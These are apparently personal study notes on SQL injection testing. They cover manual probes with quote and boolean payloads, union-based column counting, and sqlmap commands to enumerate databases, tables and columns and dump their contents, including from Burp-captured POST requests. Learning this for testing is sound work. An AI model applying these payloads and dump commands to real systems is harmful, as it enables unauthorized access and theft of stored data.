 test inputs with ' to see if you can trigger any sql errors. if so you can then move to trying boolean conditions with (```' and 1=1;-- -```) and (```' and 1=2;-- -```)

can continue manually or use sqlmap. ```sqlmap -u http://example.site/view.php?id=1``` : can be used to find if the parameter is injectable, you can then go on to use enumueration through sqlmap like ```--tables -columns --dump``` to get table information.

can also look for union based injection by trying UNION SEECT null;-- - and incrementing the number of nulls until it matches the amount of columns.

once again can continue manually using user() and substring() or use sqlmap.
you can tell sqlmap which injection techqnique to use ```sqlmap -u <url/search.php?search=n> -p search --technique=U``` : for union based techniques

if successfull you can start enumeration by using ```--users``` with above command to find users. and what databases there are using ```--dbs```

when you know the database you want to find out about from ```--dbs``` you can use ```-D <databasename> --tables``` to get the tables for it

then get columns for a table by ```-D <databasename> -T <tablename> --columns```, and then ```-D <databasename> -T <tablename> -C <columnname,columnname> --dump```

these are done using HTTP GET verbs, but sqli can also be done using POST from input forms.

this can be done more easily from burpsuite. you can go to an input like login, record a post form input and repeat it putting a ' into the inputs one at a time. this
may create an error similar to the previous example and shows there is a vulnerability. can then go through the same initial process of trying boolean 1=1/1=2 etc.
this may changethe amount of headers sent allowing us to show that the sqli is working. now that an sqli entry point is found can go to sqlmap and enter 

```sqlmap -u <url/search.php> --data=<data body from post> -p <entry point parameter> --technique=B --banner``` : to get the banner

can go on to do enumeration as previously shwon.

this can also be done easily by saving the item in burp and loading it into sqlmap with, ```sqlmap -r <saved file> -p user --technique=B --banner```

searches are save in sqlmap directory to save queries from being run multiple times. if you want to empty it and run the commands again delete it.



